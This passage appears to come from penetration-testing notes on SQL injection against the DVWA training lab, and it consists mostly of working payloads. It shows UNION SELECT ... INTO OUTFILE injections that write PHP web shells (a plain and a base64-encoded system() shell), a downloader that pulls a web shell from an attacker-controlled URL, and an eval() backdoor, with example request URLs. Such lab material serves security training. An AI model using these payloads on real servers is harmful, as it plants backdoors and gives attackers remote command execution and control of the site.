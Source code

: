 - Base64 encoded

```sql
' UNION SELECT FROM_BASE64("<base64_encoded>"), NULL INTO OUTFILE '/var/www/html/dvwa/file.php'#
```

```sql
$ base64 <<< "<?php \$cmd=\$_GET[\"cmd\"];system(\$cmd);?>"
PD9waHAgJGNtZD0kX0dFVFsiY21kIl07c3lzdGVtKCRjbWQpOz8+Cg==

' UNION SELECT FROM_BASE64("PD9waHAgJGNtZD0kX0dFVFsiY21kIl07c3lzdGVtKCRjbWQpOz8+Cg=="), NULL INTO OUTFILE '/var/www/html/dvwa/shell.php'#
```

##### 4.2.5.1.3 - Downloader

SQL Query for reference.

```sql
SELECT '<?php fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/html/downloader.php'
```

Convert it to SQL injection exploit with **UNION SELECT**.

```sql
' UNION SELECT '<?php fwrite(fopen($_GET[file], \'w\'), file_get_contents($_GET[url])); ?>' INTO OUTFILE '/var/www/html/downloader.php'
```

Usage example to download an external webshell via attacker URL.

```
http://dvwa.local/dvwa/downloader.php?file=error.php&url=http[s]://<attacker_IP>/shell.php
```

##### 4.2.5.1.4 - Evaluate PHP Code

```php
<?php eval($_GET[evaluate]); ?>
```

SQL Query for reference.

```sql
SELECT '<?php eval($_GET[evaluate]); ?>', NULL INTO OUTFILE '/var/www/html/dvwa/eval_php.php'
```

Convert it to SQL injection exploit with **UNION SELECT**.

```sql
' UNION SELECT '<?php eval($_GET[evaluate]); ?>', NULL INTO OUTFILE '/var/www/html/dvwa/eval_php.php'#
```

An example usage to enumerate PHP backend server side.

```
http://dvwa.local/dvwa/eval_php.php?evaluate=phpinfo()
```

`<insert screenshots>`
